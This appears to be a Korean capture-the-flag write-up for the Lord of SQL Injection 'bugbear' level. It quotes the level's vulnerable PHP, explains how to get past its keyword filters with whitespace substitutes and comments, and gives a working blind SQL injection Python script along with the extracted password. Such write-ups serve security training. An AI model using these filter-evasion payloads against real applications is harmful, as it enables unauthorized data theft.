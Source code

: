 # Lord of SQL Injection No.13 - bugbear

## 문제 출제 의도

`'`, `substr`, `ascii`, `=`을 대소문자 구분 없이 포함하지 않고 Blind SQL Injection을 하여 `pw`를 알아낼 수 있는지 확인한다.

## 소스 코드 분석

bugbear 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, **대소문자 구분 없이** pw에 `'` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

* 또한, **대소문자 구분 없이** no에 `'`, `substr`, `ascii`, `=`, `or`, `and`, `(공백)`, `like`, `0x` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
```
* 받은 pw와 no가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* `$result['id']`에 "0"을 제외한 어떤 값이든 들어 있으면 응답에 "Hello "와 `$result[id]` 값을 붙인 문자열이 포함된다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같음'이다. 즉, 실제 데이터베이스에 저장된 pw를 알아내서 전달해야 한다.

## addslashes
```php
string addslashes ( string $str )
```
* addslashes 함수는 데이터베이스 질의 등에서 처리할 필요가 있는 문자(홑따옴표('), 겹따옴표("), 백슬래시(\), NUL(NULL 바이트)) 앞에 백슬래시를 붙인 문자열을 반환한다.

* 따라서 `addslashes($_GET[pw])` 는 `$_GET[id]`에서 문자열 `홑따옴표('), 겹따옴표("), 백슬래시(\), NUL(NULL 바이트)`를 찾아 백슬래시를 앞에 붙인 문자열을 반환한다.

* php의 addslashes 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [PHP: addslashes - Manual](http://php.net/manual/kr/function.addslashes.php)

## 공백문자 대체

1. CR(Carriage Return) 이용

    ASCII Code 표를 살펴보면 16진수로 0x0D는 Carriage Return에 해당한다.

    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

2. LF(Line Feed)

    ASCII Code 표를 살펴보면 16진수로 0x0A는 Line Feed에 해당한다.

    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

3. Tab

    ASCII Code 표를 살펴보면 16진수로 0x09는 Tab에 해당한다.

    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

4. 주석

    MySQL에서 구문 사이에 주석을 넣으면 공백이 없어도 정상적으로 동작한다.
        
-----

## Solution
    
1. MID 함수, REGEXP 활용

    ```python
    import urllib.request
    from urllib.parse import quote

    key = ""

    pwlen = 0

    for i in range(1, 20):
        url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
        data = '-1/**/||/**/length(pw)/**/regexp/**/"^{}$"#'.format(str(i)) # = 을 못쓰므로 LIKE 로 수정
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1:
            pwlen = i
            print('pw length : ' + str(pwlen))
            break

    for i in range(1, pwlen + 1):
        for j in range(32, 127):
            url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
            data = '-1/**/||/**/mid(pw,1,{})/**/regexp/**/"^{}$"#'.format(
                str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)

            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
            re.add_header(
                "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
            )

            req = urllib.request.urlopen(re)

            if str(req.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ```

    이러한 코드를 실행하면 결과값으로 735c2773 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?pw=735c2773
    ```